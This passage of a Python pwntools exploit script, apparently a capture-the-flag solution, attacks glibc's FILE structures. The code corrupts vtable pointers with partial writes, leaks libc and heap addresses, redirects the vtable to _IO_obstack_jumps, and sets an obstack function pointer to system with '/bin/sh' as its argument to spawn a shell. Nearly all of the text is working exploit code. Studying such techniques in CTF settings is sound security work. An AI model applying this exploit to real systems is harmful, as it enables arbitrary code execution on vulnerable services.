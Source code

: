 ```py
    for i in range(1):
        trick(offt + i, str(ptr[i]).encode())

def leak_ptr(ptr: bytes) -> int:
    write_ptr(ptr, File._IO_write_base)
    
    dest = (int.from_bytes(ptr, byteorder="little")+8).to_bytes(8, byteorder='little')

    write_ptr(dest, File._IO_write_ptr)

    fflush()
    ret = pwn.u64(io.recv(8).ljust(8, b"\x00"))

    return ret

def main():
    # do_allocate
    partial_write(pwn.p8(0xa8), File.vtable)
    fflush()

    # _IO_file_underflow => _IO_default_pbackfail
    partial_write(pwn.p8(0x60), File.vtable)
    fflush()

    """
    int
    _IO_default_pbackfail (FILE *fp, int c)
    => not _IO_IN_BACKUP         0x0100
    => _IO_read_base == _IO_write_ptr
    => _IO_read_end == _IO_write_ptr + 8
    => _IO_write_end = right size
    """

    write_ptr(pwn.p64(0xfbad1800 | 0x8000), File.flags)

    partial_write(pwn.p8(0x70), File._IO_write_base)

    partial_write(pwn.p8(0x78), File._IO_write_ptr)
    partial_write(pwn.p8(0xa0), File.vtable)
    write_ptr(pwn.p64(1), File.fileno)
    fflush()

    leak = pwn.u64(io.recv(8).ljust(8, b"\x00")) - 0x2160c0 + 0x2d160
    pwn.log.info(f"libc: {hex(leak)}")
    libc.address = leak

    leak_main_arena = leak + 0x1ed5a0

    heap = leak_ptr(pwn.p64(leak_main_arena)) - 0x2a0
    pwn.log.info(f"heap: {hex(heap)}")

    _IO_obstack_jumps = leak + 0x1E9260
    pwn.log.info(f"_IO_obstack_jumps: {hex(_IO_obstack_jumps)}")

    # edit vtable => _IO_obstack_jumps
    write_ptr(pwn.p64(_IO_obstack_jumps - 8 * 9), File.vtable)
    write_ptr(pwn.p64(heap + 0x2a0), File.obstack)

    partial_write(pwn.p8(0xff), File._IO_read_base)

    write_ptr(pwn.p64(libc.sym.system), obstack.chunkfun) # fn ptr, system
    write_ptr(pwn.p64(next(libc.search(b'/bin/sh'))), obstack.extra_arg) # arg
    partial_write(pwn.p8(True), obstack.use_extra_arg)
```